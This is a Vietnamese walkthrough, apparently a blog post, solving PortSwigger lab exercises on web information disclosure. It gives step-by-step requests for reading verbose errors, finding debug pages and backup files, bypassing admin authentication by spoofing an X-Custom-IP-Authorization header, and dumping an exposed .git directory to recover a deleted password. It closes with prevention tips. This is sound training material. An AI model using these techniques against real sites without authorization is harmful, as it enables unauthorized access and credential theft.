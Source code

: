 ```yaml
---
title: "[PortSwigger Lab] - Information Disclosure Vulnerabilities"
description: Solution of Information Disclosure Vulnerabilities Lab
date: 2025-06-12 20:00:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, information disclosure]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-12-portswigger-lab-information-disclosure-vulnerabilities/information-disclosure-vulnerabilities.png
    alt: Information Disclosure Vulnerabilities
---
```


## Introduction
---
### **Information Disclosure Vulnerabilities**
- **Information Disclosure Vulnerabilities** hay còn gọi là **information leakage**, là khi một website vô tình tiết lộ thông tin nhạy cảm cho người dùng — thường là không có chủ đích.

### How do information disclosure vulnerabilities arise?
1. Không loại bỏ nội dung nội bộ khỏi nội dung công khai
    - Lập trình viên để lại **comment** trong **HTML** như:

    ```html
    <!-- TODO: remove debug endpoint /debug-info before release -->
    ```
    - Dữ liệu test hoặc file ẩn bị lộ trong môi trường **production**.

2. Cấu hình bảo mật không đúng hoặc không đầy đủ
    - Không tắt chế độ **debug**, khiến **hacker** thấy thông tin như **stack trace**, phiên bản **framework**, v.v.
    - Cấu hình mặc định **(default config)** tiết lộ thông tin kỹ thuật như cấu trúc thư mục, lỗi **SQL**, **file .env**, v.v.
    - **Web server** trả về lỗi chi tiết **(verbose error)**, giúp kẻ tấn công suy đoán cấu trúc **backend**.

3. Thiết kế và hành vi ứng dụng có sai sót
    - Ứng dụng trả về lỗi khác nhau với tài khoản đúng và sai, giúp kẻ tấn công **brute-force username/email**:
    - Phản hồi HTTP 200/403/404 khác nhau tùy vào trạng thái tài nguyên (giúp dò đoán đường dẫn, file, ID...).

## Solve Information Disclosure Vulnerabilities Lab
---
### Lab: Information disclosure in error messages
- Truy cập 1 **product page** bất kỳ
- Thay đổi `product id` thành dạng **string** => Ứng dụng hiển thị lỗi kèm **version** của **framework**

Request
```
https://0a0b00f20356c863832f52f200930024.web-security-academy.net/product?productId=xnxx
```

Response
```
Internal Server Error: java.lang.NumberFormatException: For input string: "xnxx"
...

Apache Struts 2 2.3.31
```
- Copy và Submit

### Lab: Information disclosure on debug page
- Truy cập trang web và **inspect source**
- Tìm từ khóa `debug` ở phần **source** 
- **Enter** cho đến khi thấy

```html
<!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
```
- Truy cập đến `/cgi-bin/phpinfo.php` 
- Lấy `SECRET_KEY` và **submit**

### Lab: Source code disclosure via backup files

| Kiểu backup phổ biến                 | Ví dụ tên file                   |
| ------------------------------------ | -------------------------------- |
| Thêm dấu `~` vào cuối                | `index.php~`                     |
| Đổi đuôi sang `.bak`, `.old`, `.tmp` | `index.php.bak`, `config.js.old` |

- Truy cập `/robots.txt` là file hướng dẫn **google bot** tài nguyên nào được phép **index**
- Quan sát ta thấy đường dẫn đến `/backup`

```html
User-agent: *
Disallow: /backup
```
- Truy cập trang `/backup` và đọc mã nguồn của file bên trong nó

```java
ConnectionBuilder connectionBuilder = ConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "ha2e7u15efm2hbyxnub5ype2d16n73sp"
        ).withAutoCommit();
```
- Lấy password và submit

### Lab: Authentication bypass via information disclosure
- Truy cập trang web và gửi request đến **Burp Repeater**
- Thay đổi **method** thành `TRACE` và gửi lại request
    - TRACE là một phương thức chẩn đoán **(diagnostic)** trong **HTTP**.
    - Khi bạn gửi một yêu cầu `TRACE` tới máy chủ, nó sẽ phản hồi lại chính xác nội dung của yêu cầu bạn đã gửi.

```http
TRACE / HTTP/2
Host: 0a6d006f049637c98050a85a008c001e.web-security-academy.net
```
- Quan sát **response** có chứa trường `X-Custom-IP-Authorization: 118.69.31.247`
- Đây không phải là **header** tiêu chuẩn của **HTTP** mà là **custom header**
- Ứng dụng có thể đã sử dụng trường này để cho phép hoặc từ chối truy cập nếu địa chỉ **IP** được xác định là `"được phép"`
- Thay đổi request đến `/admin` và thêm trường này với **IP** là `127.0.0.1`

```http
TRACE /admin HTTP/2
Host: 0a6d006f049637c98050a85a008c001e.web-security-academy.net
X-Custom-IP-Authorization: 127.0.0.1
```
- Gửi lại **request**
- Quan sát **response** chứa đường dẫn để xóa user `carlos`
- Gửi tiếp request để xóa user `carlos`

```http
TRACE /admin/delete?username=carlos HTTP/2
Host: 0a6d006f049637c98050a85a008c001e.web-security-academy.net
X-Custom-IP-Authorization: 127.0.0.1
```
- Ứng dụng sẽ xác nhận rằng request đến từ `127.0.0.1` là request cục bộ, nhầm lẫn là admin nên cho phép truy cập tài nguyên trang **admin**

### Lab: Information disclosure in version control history
- Truy cập đến `/.git` => Lỗi cấu hình => Lộ file `.git`
- Tài file `.git` đó về

```zsh
wget -r https://0a41004e04a009548185fcda0083004e.web-security-academy.net/.git
```
- Truy câp đến thư mục `.git` **(chưa có "git" thì lo mà tải đi nhá)**
- Xem **log** của **repository**

```zsh
git log
```

```
commit f5ebf4a50140e3538a518029f7c9f6ab8318c201 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 0591a2262f16349fbc79f83e1588f13877d6afbd
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```

- Ta thấy **commit** có id `f5ebf4a50140e3538a518029f7c9f6ab8318c201` đã 
`Remove admin password from config` => Ta có thể xem sự thay đổi tại commit này để xem **password** bị xóa là gì

```zsh
git show f5ebf4a50140e3538a518029f7c9f6ab8318c201
```

```
commit f5ebf4a50140e3538a518029f7c9f6ab8318c201 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

diff --git a/admin.conf b/admin.conf
index ee7c7c9..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=d0udappaq6625y2dwbi8
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

- Author đã xóa `ADMIN_PASSWORD=d0udappaq6625y2dwbi8` và thay bằng `ADMIN_PASSWORD=env('ADMIN_PASSWORD')`
- Đăng nhập bằng tài khoản **admin** với **password** vừa tìm được
- Xóa uses `carlos`

## Prevent
---
1. Xác định rõ thông tin nào là "nhạy cảm"
2. Kiểm tra mã nguồn để phát hiện rò rỉ thông tin
3. Sử dụng thông báo lỗi chung chung
4. Tắt tính năng debug, test và logging nhạy cảm ở production
5. Cấu hình kỹ lưỡng các công nghệ bên thứ ba

---
Goodluck! 🍀🍀🍀 